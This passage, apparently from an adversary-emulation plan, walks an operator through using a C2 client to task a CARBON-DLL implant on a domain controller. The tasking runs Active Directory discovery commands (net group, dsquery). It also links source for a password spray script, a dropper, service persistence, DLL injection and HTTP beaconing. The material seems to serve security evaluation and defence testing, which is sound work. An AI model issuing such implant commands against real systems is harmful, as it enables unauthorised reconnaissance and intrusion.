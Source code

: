 :arrow_right: Return to your control server output and confirm the registration of a new
CARBON-DLL implant on the domain controller.

:arrow_right: Return to your tasking window and task the new CARBON-DLL implant
with discovery commands to be run on the domain controller.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 0, "cmd": "net group /domain"}'
```
:heavy_exclamation_mark: Verify that the `Web Servers` and `Web Server Admins` groups are in the output.


* Wait 1 minute and then task CARBON-DLL to enumerate both groups for their members.
```bash
./evalsC2client.py --set-task a3e63922 '{"id": 1, "cmd": "net group \"Web Servers\" /domain && net group \"Web Server Admins\" /domain"}'
```

* Wait 1 minute and then task CARBON-DLL to enumerate the Active Directory
Computers.
```bash
./evalsC2client.py --set-task a3e63922 '{"id": 2, "cmd": "dsquery * -filter \"(&(objectclass=computer))\" -attr *"}'
```

* Ensure `khabibulin` is in the output and confirm the `Description` value is
"Adalwolfa Workstation".

```bash
grep 'cn: khabibulin' logs.txt -C 2 -i
```

* This should return:
  * > ```
    > objectClass: user
    > objectClass: computer
    > cn: khabibulin
    > description: Adalwolfa Workstation
    > distinguishedName: CN=khabibulin,CN=Computers,DC=skt,DC=local
    > ```

### :moyai: Source Code

* [Password spray batch script](../../Resources/payloads/carbon/password_spray.bat)
* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Comms Lib DLL Injection](../../Resources/Carbon/Orchestrator/src/injection.cpp#L454)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](../../Resources/Carbon/CommLib/src/NamedPipeP2p.cpp)
